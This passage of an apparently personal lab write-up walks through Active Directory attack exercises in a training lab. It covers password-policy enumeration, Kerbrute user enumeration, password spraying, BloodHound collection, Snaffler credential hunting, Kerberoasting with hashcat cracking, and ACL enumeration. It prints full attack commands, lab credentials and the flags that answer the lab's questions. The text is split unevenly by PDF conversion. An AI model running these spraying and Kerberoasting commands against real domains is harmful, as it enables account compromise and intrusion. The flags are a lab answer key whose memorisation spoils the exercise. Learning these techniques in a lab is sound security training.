domain? (One number)
Answer: 8
Method: Method 1: we will use ldapsearch:
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -
s sub "*" | grep -m 1 -B 10 pwdHistoryLength
we basically run ldap query to obtain as much data as possible from the
domain 'INLANEFREIGHT.LOCAL', from the machine 172.16.5.5 (which we know
is active from previous questions) – and from the results display the password
related results:

Method 2: we will use enum4linux-ng -  a tool to enumerate  WINDOWS hosts
and domains:
First we will use 'nmap -sV' to confirm the target system is of Windows OS:


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


### And it is! Now let's proceed – we now run the command

#### Technical Methodology & Exploit Execution:

enum4linux-ng -P 172.16.5.5 -oA ilfreight
it will run enumeration on the same target and the same domain:
and somewhere within the results we will get to this:

Method 3: we will use 'rpcclient' - a tool used to execute client-side MS-RPC
(Microsoft remote procedure calls):
```bash
rpcclient -U "" -N 172.16.5.5
```
when we run the command, we get to the tool CLI:

We enter to it:
getdompwinfo


And the 'min_password_length' is displayed.
Method 4: we use crackmapexec:
```bash
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --
```
pass-pol
this method assumes we have a valid user's credentials –
avazquez:Password123 in this case. We run it:


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


*_Figure 13.4 — Lab execution and output verification (Page 13)_*


### Password Spraying - Making a Target User List

> **Lab Question (Page 14)**: Enumerate valid usernames using Kerbrute and the wordlist located at /opt/jsmith.txt on the ATTACK01 host. How many valid usernames can we enumerate with just this wordlist from an unauthenticated standpoint?
>
> **Flag / Answer**: `56`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will ssh login to the target Linux machine (ATTACK01 host).
Then we will 'kerbrute tool' (active directory enumeration tool) to run the
command:
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5
/opt/jsmith.txt
the command runs user enumeration on the domain 'inlanefreight.local' with
using valid user's credential in its disposal, from 'jsmith.txt' wordlist for
bruteforce tactics:

After some valid username displays – the total number of valid usernames is
presented.


*_Figure 14.1 — Lab execution and output verification (Page 14)_*


### Internal Password Spraying - from Linux

> **Lab Question (Page 15)**: Find the user account starting with the letter "s" that has the password Welcome1. Submit the username as your answer.
>
> **Flag / Answer**: `sgage`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will first improve a bit the command from last question to:
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5
/opt/jsmith.txt | awk '{print $NF}' | cut -d '@' -f 1 >
valid_users.txt
*we isolate the username itself from the output format (which can be seen in
the last picture of the previous question's method).
Alternatively, we can use ldapsearch for the exact same purpose:
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -
s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut
-f2 -d" " > valid_users.txt

either way now the 'valid_users.txt' looks something like this:

Now we will run the password spray – there are several possible approaches,
the one that worked best for me is:
for u in $(cat valid_user.txt);do rpcclient -U "$u%Welcome1"
-c "getusername;quit" 172.16.5.5 | grep Authority; done
for every name in the 'valid_users.txt' list – we guess the password 'Welcome1'
on it on the target '172.16.5.5' (DC1):

There are 3 results, we simply take the one which begins with 's'


*_Figure 15.1 — Lab execution and output verification (Page 15)_*


*_Figure 15.2 — Lab execution and output verification (Page 15)_*


### Internal Password Spraying - from Windows

> **Lab Question (Page 16)**: Using the examples shown in this section, find a user with the password Winter2022. Submit the username as the answer.
>
> **Flag / Answer**: `dbranch`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to the target Windows machine.
Then, we will need to use 'DomainPasswordSpray' – which serves the same
purpose as the 'rpcclient' for password spraying, but for Windows OS.
We open PowerShell, and run the sequence of commands:
```bash
cd C:\Tools\
Import-Module .\DomainPasswordSpray.ps1
```

Invoke-DomainPasswordSpray -Password Winter2022 -OutFile
spray_success -ErrorAction SilentlyContinue

And the program starts to run, firstly, it will create list of users to spray:

And at some point we will be asked to confirm the password spray:

Confirm by enter 'y', and the spraying will begin:

the execution found the user 'dbranch' with the password 'Winter2022'.


*_Figure 16.1 — Lab execution and output verification (Page 16)_*


*_Figure 16.2 — Lab execution and output verification (Page 16)_*


*_Figure 16.3 — Lab execution and output verification (Page 16)_*


### Credentialed Enumeration - from Linux

> **Lab Question (Page 17)**: What AD User has a RID equal to Decimal 1170?
>
> **Flag / Answer**: `mmorgan`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, we will ssh login to our target Linux machine.
When done, we will initialize 'rpcclient' with the command:
```bash
rpcclient -U "" -N 172.16.5.5
```
*same target as in the previous questions.
Now on the rpcclient CLI we will enter
queryuser 1170
and the answer will immediately be displayed:

When we scroll a bit further down in the result, we encounter the RID value:
, it is mentioned in hexadecimal, which of
course 0x492 in hexadecimal is equal to 1170 in decimal.
RID is a unique utilized by Windows to track and identify objects – it is basically
somewhat weaker, more localized version of the SID.

Question: What is the membercount: of the "Interns" group?
Answer: 10
Method: we will use 'crackmapexec' – active directory enumartion and
```bash
exploitation tool:
sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --
```
groups | grep Interns
with this command we use 'crackmapexec' to enumerate smb shares on the
target server, using the credentials of the valid user 'forend:Klmcargo2' for
groups data. Then we will filter for 'Interns' group to be displayed:


*_Figure 17.1 — Lab execution and output verification (Page 17)_*


*_Figure 17.2 — Lab execution and output verification (Page 17)_*


*_Figure 17.3 — Lab execution and output verification (Page 17)_*


### Credentialed Enumeration - from Windows

> **Lab Question (Page 18)**: Using Bloodhound, determine how many Kerberoastable accounts exist within the INLANEFREIGHT domain. (Submit the number as the answer)
>
> **Flag / Answer**: `13`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to the target Windows machine.
Now, we will use 'Bloodhound' as instructed, and, in addition - 'SharpHound' as
well – and as usual with the target windows machines – it will be found in
'C:\tools', we will use the PowerShell commands:
```bash
cd C:\Tools\
```
.\SharpHound.exe -c All --zipfilename ILFREIGHT
Where the first command will change directory to 'tools', and the second
command will run 'SharpHound' with -c flag (collectionmethods) set to 'All',
and the output will be directed to zip called 'ILFREIGHT':

After the execution is finished – we will observe the output zip in our 'Tools'
folder:

Now, we will use BloodHound graphic interface to analyze the data.
It can be found in 'C:\Tools\BloodHound-GUI':

Open it, the default credentials will be automatically processed


*_Figure 18.1 — Lab execution and output verification (Page 18)_*


*_Figure 18.2 — Lab execution and output verification (Page 18)_*


*_Figure 18.3 — Lab execution and output verification (Page 18)_*


### And we will get to the main dashboard screen

(however for emergency the credentials are neo4j:HTB_@cademy_stdnt!),
And we will get to the main dashboard screen:

We select 'upload data' (the fourth option from the top):

And then we select the zip output data from the 'SharpHound'.
The upload will commence:

It might take a minute or 2, but when the upload progress (all bars) reach
100%, we can close the window.
When the data is up, we run the query:
MATCH (u:User) WHERE u.hasspn=true RETURN u
the query searches for users where their 'hasspn' is true, 'hasspn' property is a
Boolean attribute that indicates whether the user has a Service Principal Name
(SPN) set. Kerberoasting accounts must have this property set, as the presence
of an SPN allows the Kerberos service ticket to be requested.


*_Figure 19.1 — Lab execution and output verification (Page 19)_*


*_Figure 19.2 — Lab execution and output verification (Page 19)_*


*_Figure 19.3 — Lab execution and output verification (Page 19)_*


### And select: 'INLANEFREIGHT.LOCAL'

Another method would be to search on the filter 'domain:'
And select: 'INLANEFREIGHT.LOCAL':

Go to Analysis, and select 'Kerberos Interaction' → 'List all Kerberostable
Accounts'

Now, for both methods we will get this graph:

After manually counting them – we get to 13 results.
*Note, currently -I am not sure how to get from this interface numerical result
rather than graph, for higher quantity of results. Which is a very big downside
of 'Bloodhound' graphical interface *


*_Figure 20.1 — Lab execution and output verification (Page 20)_*


*_Figure 20.2 — Lab execution and output verification (Page 20)_*


*_Figure 20.3 — Lab execution and output verification (Page 20)_*


### And during execution this xml string will appear

> **Lab Question (Page 21)**: What PowerView function allows us to test if a user has administrative access to a local or remote host?
>
> **Flag / Answer**: `Test-AdminAccess`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Question: Run Snaffler and hunt for a readable web config file. What is the
name of the user in the connection string within the file?
Answer: sa
Method: we run the Snaffler command:
.\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data
And during execution this xml string will appear:

We take the uid property → 'sa'

Question: What is the password for the database user?
Answer: ILFREIGHTDB01!
Method: in the same method in the previous question, just after the 'uid'
property, the password is displayed.
*note – not sure how and why makes it true, method will be updated upon
encountering further explanation *


*_Figure 21.1 — Lab execution and output verification (Page 21)_*


*_Figure 21.2 — Lab execution and output verification (Page 21)_*


*_Figure 21.3 — Lab execution and output verification (Page 21)_*


### Living Off the Land

> **Lab Question (Page 22)**: Enumerate the host's security configuration information and provide its AMProductVersion.
>
> **Flag / Answer**: `4.18.2109.6`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to the target Windows machine.
Then – we run on powershell the following command:
Get-MpComputerStatus | findstr "AMProductVersion"
This command we use will get details about the anti-malware software
(Microsoft Protection Computer status), and from here we filter in the AM –
Anti Malware version.


Question: What domain user is explicitly listed as a member of the local
Administrators group on the target host?
Answer: adunn
Method: we run the powershell command:
Get-LocalGroupMember -Group "Administrators"
And we select the non-trivial name


*_Figure 22.1 — Lab execution and output verification (Page 22)_*


*_Figure 22.2 — Lab execution and output verification (Page 22)_*


### (disabled), then we output the attribute 'Description'

> **Lab Question (Page 23)**: Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer.
>
> **Flag / Answer**: `HTB{LD@P_I$_W1ld}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we run the PowerShell command:
dsquery * -filter "(&(memberOf=CN=Domain
Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL)(userAccountContro
l:1.2.840.113556.1.4.803:=2))" -attr Description
where we are looking for Domain Admins (object common name (CN) =
'Domain Admins'), same as users. And the DC – Domain Component is our
usual 'INLANEFRIEHGT.LOCAL'. we also set the 'userAccountCtonrol' for 2
(disabled), then we output the attribute 'Description':

*another possible script that does the job can be downloaded here. However,
it was not built with direct accordance of the section instructions *


*_Figure 23.1 — Lab execution and output verification (Page 23)_*


### Kerberoasting - from Linux

> **Lab Question (Page 24)**: Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer.
>
> **Flag / Answer**: `!SapperFi2`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we login to the target Linux machine.
Now, we will use the python script-based tool GetUserSPNs
Now, to get 'SAPService' TGS ticket, we will use the command:
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/dbranch
-request-user SAPService
We are requesting 'SAPService' ticket value in the name of 'dbranch', whose
password of course we discovered in a previous question:

Now, the reason we were able to get 'SAPService' TGS ticket using other user
credentials, is because 'SAPService', is Service Principal Name (SAP) – basically
a unique identifiers (a 'guardian' if you call it) that Kerberos uses to map a
service instance to a service account in whose context the service is running.
And domain user can request a Kerberos ticket for any service account in the
same domain. That is why we could get 'SAPService TGS ticket with 'dbranch'
credentials.
When we get our result – we transfer the output content from the target
machine to a file within our attacking machine (in this instance – pwnbox), it
can be done with copy paste, it can be done with file transferring tool (netcat
can be used for that for example) – the python tool has '-outputfile
outputfile.txt' option, at the end – have the results in a file within the attacker
machine.


*_Figure 24.1 — Lab execution and output verification (Page 24)_*


### The next stage is running hashcat on sapservice_tgs.txt

> **Lab Question (Page 25)**: What powerful local group on the Domain Controller is the SAPService user a member of?
>
> **Flag / Answer**: `Account Operators`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use ldapsearch:
ldapsearch -x -H ldap://172.16.5.5 -D
"SAPService@INLANEFREIGHT.LOCAL" -w '!SapperFi2' -b
"dc=INLANEFREIGHT,dc=LOCAL"
"(member=CN=SAPService,CN=Users,DC=INLANEFREIGHT,DC=LOCAL)"
dn
a bit explanation on the parameters:


*_Figure 25.1 — Lab execution and output verification (Page 25)_*


*_Figure 25.2 — Lab execution and output verification (Page 25)_*


### distinguished names of the groups, lets run it

The most relevant parameter in our case is the 'dn' – which returns
distinguished names of the groups, lets run it:

There was a single result – 'Account Operators'.  (the part in the bottom of the
picture is search references, when we get there meaning we are done with the
results display).


*_Figure 26.1 — Lab execution and output verification (Page 26)_*


*_Figure 26.2 — Lab execution and output verification (Page 26)_*


### Kerberoasting - from Windows

> **Lab Question (Page 27)**: What is the name of the service account with the SPN 'vmware/inlanefreight.local'?
>
> **Flag / Answer**: `svc_vmwaresso`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to our target Windows machine.
Then we will run the powershell commands:
```bash
cd C:\Tools\
Import-Module .\PowerView.ps1
```
$spn = "vmware/inlanefreight.local"
$serviceAccount = Get-DomainObject -LDAPFilter
"(servicePrincipalName=$spn)"

# Output the service account details
$serviceAccount | select samAccountName
In this script we are checking what is the service account is associated with the
SPN 'vmware/inlanefreight.local'.


Question: Crack the password for this account and submit it as your answer.
Answer: Virtual01
Method: we will use the powershell commands:
```bash
Import-Module .\PowerView.ps1
```
$user = "svc_vmwaresso"
$outputFile = "outputfile.txt"

$spnTicket = Get-DomainUser -Identity $user | Get-
DomainSPNTicket -Format Hashcat

$hash = $spnTicket.Hash
$hash | Out-File -FilePath $outputFile


*_Figure 27.1 — Lab execution and output verification (Page 27)_*


### The key command in the script above is

We are doing here the process we did with GetUserSPNs in Linux-Kerberoasting
section.
The key command in the script above is:
Get-DomainUser -Identity $user | Get-DomainSPNTicket -Format
Hashcat
Which get the SPN user's ('svc_vmwaresso' from the previous question) TGS
ticket, and extracts the has with:
$hash = $spnTicket.Hash
This command – and outputs it to a file:

Lets take a look at the file:

Now the content of which, we take back to our pwnbox machine for hashcat.
I will skip the process of that as it was thoroughly covered in the Linux
equivalent of the question – after doing the process we will get to the cracked
password:

*we can also run powershell command without directing the output to a file,
however the hash will be displayed with many spaces, so we can clean it up
here (or the correct linux 'sed' or 'tr' commands) and the proceed from here. *


*_Figure 28.1 — Lab execution and output verification (Page 28)_*


*_Figure 28.2 — Lab execution and output verification (Page 28)_*


*_Figure 28.3 — Lab execution and output verification (Page 28)_*


### Access Control List (ACL) Abuse Primer

> **Lab Question (Page 29)**: What type of ACL defines which security principals are granted or denied access to an object? (one word)
>
> **Flag / Answer**: `DACL`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

"Discretionary Access Control List (DACL) - defines which security principals are
granted or denied access to an object."

Question: Which ACE entry can be leveraged to perform a targeted
Kerberoasting attack?
Answer: GenericAll
Method: "GenericAll - this grants us full control over a target object. Again, depending
on if this is granted over a user or group, we could modify group membership, force
change a password, or perform a targeted Kerberoasting attack."


### ACL Enumeration

> **Lab Question (Page 30)**: What is the rights GUID for User-Force-Change-Password?
>
> **Flag / Answer**: `00299570-246d-11d0-a768-00aa006e0529`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will xfreerdp login to our target Windows machine.
Then we will run the powershell commands:
```bash
Import-Module .\PowerView.ps1
```
$sid = Convert-NameToSid wley

Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -
eq $sid}
Now the second command gets the user 'wley' sid (security ID). The third
command execution retrieves the Access Control Lists (ACLs) for all objects,
however it filters the results for the object with the provided (this case 'wley')
sid. The execution takes several minutes until completion, at the end of which
we get this:

We need the ObjectAceType value – ACE is Access Control Entry, the value that
allows us to determine the object's ACE rights.
Now that we have that – we proceed with the powershell:
$guid = "00299570-246d-11d0-a768-00aa006e0529"

Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-
ADRootDSE).ConfigurationNamingContext)" -LDAPFilter
"(rightsGuid=$guid)" -Properties * | Select-Object Name,
DisplayName, DistinguishedName, rightsGuid | Format-List
In this command we inspect the ACE guid we obtained:


*_Figure 30.1 — Lab execution and output verification (Page 30)_*


### 'ResolveGUIDs' flag

> **Lab Question (Page 31)**: What flag can we use with PowerView to show us the ObjectAceType in a human-readable format during our enumeration?
>
> **Flag / Answer**: `ResolveGUIDs`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Let's run the 'Get-DomainObjectACL' again, but this time with the
'ResolveGUIDs' flag:
```bash
Import-Module .\PowerView.ps1
```
$sid = Convert-NameToSid wley

Get-DomainObjectACL -ResolveGUIDs -Identity * | ?
{$_.SecurityIdentifier -eq $sid}
And the 'ObejectAceType' format is human-readable:


*_Figure 31.1 — Lab execution and output verification (Page 31)_*


*_Figure 31.2 — Lab execution and output verification (Page 31)_*


### to any non-protected attribute on an object

> **Lab Question (Page 32)**: What privileges does the user damundsen have over the Help Desk Level 1 group?
>
> **Flag / Answer**: `GenericWrite`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets perform the same process we used on 'wley'user:
```bash
Import-Module .\PowerView.ps1
```
$sid = Convert-NameToSid damundsen

